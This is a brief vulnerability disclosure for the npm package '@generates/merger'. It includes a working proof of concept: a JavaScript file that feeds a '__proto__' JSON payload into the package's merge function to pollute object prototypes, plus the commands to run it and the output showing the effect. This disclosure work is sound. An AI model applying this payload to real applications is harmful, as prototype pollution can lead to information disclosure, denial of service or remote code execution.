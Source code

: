 # Description

`@generates/merger` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var merger = require("@generates/merger")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
merger.merge(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i @generates/merger # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
